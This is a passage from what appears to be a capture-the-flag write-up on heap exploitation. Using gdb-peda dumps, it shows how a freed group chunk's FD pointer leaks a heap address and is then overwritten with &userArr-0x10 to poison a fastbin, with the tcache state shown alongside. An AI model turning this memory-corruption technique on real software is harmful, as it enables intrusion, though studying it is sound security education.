 **Notice that we also edit `userArr[7]`'s groupname so that it shares the same name as `userArr[8]`.   
This is so that when we delete `userArr[7]`, both `userArr[7]`'s `groupName`+`group` AND `userArr[8]`'s `groupName`+`group` are freed.**

Since we've freed so many group chunks in `t2`, we can now control the contents of a free'd group fastchunk that has been placed in `t1`'s `main_arena.fastbinsY`.

Before we modify the contents of this freed fastchunk though, let's first leak a heap printer by printing out `userArr[8]->groupName`, which, as the **FD** ptr, now points to the next chunk in the fastbin.

{% highlight bash %}
# userArr[8]:
gdb-peda$ x/6xg 0x00000000006037b0
0x6037b0:       0x0000000000000000      0x0000000000000021 
0x6037c0:       0x0000000000000000      0x00000000006037e0
0x6037d0:       0x0000000000603780      0x0000000000000021 <-- userArr[8]->groupName

# userArr[8]->groupName:
gdb-peda$ x/8xg 0x0000000000603770
0x603770:       0x0000000000000000      0x0000000000000021
0x603780:       0x0000000000603710      0x0000000000000000 <-- FD = 0x603710
0x603790:       0x0000000000000000      0x0000000000000021
0x6037a0:       0x0000000000603770      0x0000000000000000

# fastbin pre-corruption
gdb-peda$ printfastbin
(0x20)     fastbin[0]: 0x603790 --> 0x603770 --> 0x603710 --> 0x6036f0 [...]
{% endhighlight %}

After we get our heap leak, we can now corrupt the **FD** ptr and overwrite it with `&userArr-0x10`.

Our `fastbin[0]` now looks like this:
{% highlight bash %}
# fastbin post-corruption:
gdb-peda$ printfastbin
(0x20)     fastbin[0]: 0x603790 --> 0x603770 --> 0x6020d0 (size error (0x0)) --> 0x0
{% endhighlight %}

And `tcache`(thread 1) like this:
{% highlight bash %}
gdb-peda$ p *(struct tcache_perthread_struct *)tcache
$1 = {
  counts = "\a", '\000' <repeats 62 times>, 
  entries = {0x6036c0, 0x0 <repeats 63 times>}
}
gdb-peda$ find 0x6036c0 all
Searching for '0x6036c0' in: all ranges
Found 1 results, display max 1 items:
[heap] : 0x603050 --> 0x6036c0 --> 0x603640 --> 0x6035c0 --> 0x603540 --> 0x6034c0 --> 0x603440 --> 0x6033c0 --> 0x0 
{% endhighlight %}
